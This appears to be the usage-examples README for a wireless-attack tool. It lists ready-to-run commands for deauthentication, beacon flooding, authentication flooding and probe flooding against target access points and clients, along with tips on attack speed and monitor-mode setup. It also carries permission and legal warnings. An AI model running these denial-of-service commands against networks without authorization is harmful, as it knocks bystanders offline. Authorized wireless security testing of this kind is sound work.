 # WiFi Security Tester - Usage Examples

## ⚠️ Important Reminder
**Only use these examples on networks you own or have explicit permission to test!**

## Basic Usage Examples

### 1. Interactive Mode (Recommended for Beginners)
```bash
sudo python3 wifi_tester_gui.py
```
This launches an interactive menu interface that guides you through:
- Interface setup
- Network scanning
- Target selection
- Attack execution

### 2. Quick Network Scan
```bash
# Scan for 15 seconds and display results
sudo python3 wifi_security_tester.py --scan --duration 15
```

### 3. Deauthentication Attacks

#### Basic Deauth (Disconnect all clients)
```bash
# Interactive: scan and select target
sudo python3 wifi_security_tester.py --deauth

# Direct target specification
sudo python3 wifi_security_tester.py --deauth -t AA:BB:CC:DD:EE:FF
```

#### Target Specific Client
```bash
# Disconnect specific device
sudo python3 wifi_security_tester.py --deauth -t AA:BB:CC:DD:EE:FF -c 11:22:33:44:55:66
```

#### Limited Packet Count
```bash
# Send exactly 50 deauth packets then stop
sudo python3 wifi_security_tester.py --deauth -t AA:BB:CC:DD:EE:FF --count 50
```

### 4. Beacon Flooding Attacks

#### Create Fake Access Points
```bash
# Create 500 fake APs
sudo python3 wifi_security_tester.py --beacon-flood --count 500

# Continuous beacon flooding (stop with Ctrl+C)
sudo python3 wifi_security_tester.py --beacon-flood
```

### 5. Authentication Flooding
```bash
# Flood target with 2000 auth requests
sudo python3 wifi_security_tester.py --auth-flood -t AA:BB:CC:DD:EE:FF --count 2000

# Continuous auth flooding
sudo python3 wifi_security_tester.py --auth-flood -t AA:BB:CC:DD:EE:FF
```

### 6. Probe Request Flooding
```bash
# Flood with probe requests for specific network
sudo python3 wifi_security_tester.py --probe-flood --ssid "MyHomeWiFi" --count 1000

# Continuous probe flooding
sudo python3 wifi_security_tester.py --probe-flood --ssid "TargetNetwork"
```

## Advanced Usage Examples

### 7. Specify Interface and Channel
```bash
# Use specific interface and set channel
sudo python3 wifi_security_tester.py --deauth -i wlan0 -t AA:BB:CC:DD:EE:FF --channel 6
```

### 8. Combined Operations
```bash
# Scan, then perform deauth attack
sudo python3 wifi_security_tester.py --scan --deauth --duration 10
```

### 9. Testing Multiple Attack Vectors
```bash
# Test 1: Deauth attack for 30 seconds
sudo python3 wifi_security_tester.py --deauth -t AA:BB:CC:DD:EE:FF --count 300

# Test 2: Auth flood
sudo python3 wifi_security_tester.py --auth-flood -t AA:BB:CC:DD:EE:FF --count 1000

# Test 3: Beacon flood to create interference
sudo python3 wifi_security_tester.py --beacon-flood --count 200
```

## Real-World Testing Scenarios

### Home Network Security Assessment

1. **Test WiFi Resilience**
   ```bash
   # Step 1: Scan your network
   sudo python3 wifi_security_tester.py --scan
   
   # Step 2: Test deauth protection
   sudo python3 wifi_security_tester.py --deauth -t YOUR_ROUTER_BSSID --count 100
   
   # Step 3: Check if devices reconnect automatically
   ```

2. **Test Access Point Stability**
   ```bash
   # Stress test with auth flooding
   sudo python3 wifi_security_tester.py --auth-flood -t YOUR_ROUTER_BSSID --count 500
   ```

3. **Test Network Visibility**
   ```bash
   # Create interference with beacon flooding
   sudo python3 wifi_security_tester.py --beacon-flood --count 100
   ```

### Enterprise Network Testing

1. **Client Isolation Testing**
   ```bash
   # Test if enterprise AP handles deauth attacks
   sudo python3 wifi_security_tester.py --deauth -t ENTERPRISE_AP_BSSID -c CLIENT_MAC
   ```

2. **Load Testing**
   ```bash
   # Test AP performance under auth flood
   sudo python3 wifi_security_tester.py --auth-flood -t ENTERPRISE_AP_BSSID --count 2000
   ```

## Troubleshooting Common Issues

### Interface Problems
```bash
# Check available interfaces
iwconfig

# Manually set monitor mode if automatic fails
sudo airmon-ng start wlan0
sudo iwconfig wlan0mon channel 6

# Then use the monitor interface
sudo python3 wifi_security_tester.py --deauth -i wlan0mon -t AA:BB:CC:DD:EE:FF
```

### Permission Issues
```bash
# Ensure you're running as root
sudo -i
python3 /path/to/wifi_security_tester.py --scan
```

### Network Interface Restoration
```bash
# If interface gets stuck in monitor mode
sudo airmon-ng stop wlan0mon
sudo systemctl restart NetworkManager
```

## Performance Tips

### Optimize Attack Speed
```bash
# For faster deauth attacks (be careful not to overwhelm)
sudo python3 wifi_security_tester.py --deauth -t AA:BB:CC:DD:EE:FF --count 1000

# For sustained attacks with lower impact
sudo python3 wifi_security_tester.py --deauth -t AA:BB:CC:DD:EE:FF --count 10
```

### Monitor Attack Effectiveness
- Use another device to monitor network connectivity
- Check router logs for attack detection
- Monitor client reconnection behavior

## Safety Guidelines

### Before Testing
1. Ensure you own the network or have written permission
2. Inform other users about the test
3. Have a backup internet connection
4. Document your testing activities

### During Testing
1. Monitor the impact on legitimate users
2. Stop immediately if unintended effects occur
3. Keep tests short and controlled
4. Don't test during critical business hours

### After Testing
1. Restore all interfaces to normal mode
2. Restart network services if needed
3. Document findings and vulnerabilities
4. Implement security improvements

## Legal Reminders

- **Only test networks you own**
- **Get written permission for any other testing**
- **Follow local laws and regulations**
- **Use for educational purposes only**
- **Report vulnerabilities responsibly**

Remember: The goal is to improve security, not to cause harm!